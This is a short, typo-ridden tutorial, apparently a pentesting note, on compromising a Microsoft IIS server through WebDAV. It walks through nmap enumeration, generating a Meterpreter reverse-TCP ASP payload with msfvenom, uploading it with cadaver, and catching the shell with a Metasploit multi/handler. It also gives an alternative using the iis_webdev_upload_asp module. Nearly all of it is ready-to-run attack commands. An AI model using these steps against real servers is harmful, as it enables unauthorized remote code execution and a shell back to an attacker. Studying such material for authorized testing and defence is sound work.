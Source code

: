 ## Exploiting Microsoft IIS Server using webdev
## Exploiting webdev with metasploit
---
 Get IP
---
```
nmap -sV -p 80 --script=http-enum IP
```

Now, after nmap result we can know that webdev is running or not in IIS server

---

so, To exploit IIS server using webdev. We have generate payload using masvenom
```
msfvenom -p windows/meterpreter/reverse_tcp/ LHOST=attackerMachineIP LPORT=attacckerMachinePORT(1234) -f asp > shell.asp
```
now we successfylly create payload with of asp file

after creating payload.
upload in webdev server
```
- cadaver http:victimIP/webdev
- put payloat/path
```
---

now start msfconsole and also postgresql
```
  service postgresql start && msfconsole 
	- use multi/handler
	- set payload windows/meterpreter/reverse_tcp
	- set LHSOT attackerMachineIP
	- set LPORT attackerMachinePORT(1234)
	- run
 ```
 ---

Now, search in browser http://victimIP/webdev. After this click on, then we will meterpreter session 

---
Another way to exploit
after running msfconsole
```
- search iis upload
- use exploit/windows/iis/iis_webdev_upload_asp
- show options
```
we have to provide http webdev credentials
```
- set RHOST Victim IP
- set PATH /webdev/matasploits
- exploit
```
What ever fliles are upload in webdev that all automatically deleted
when we do mannually using cadaver then we have to delete it mannually

```
delete shell.asp
```
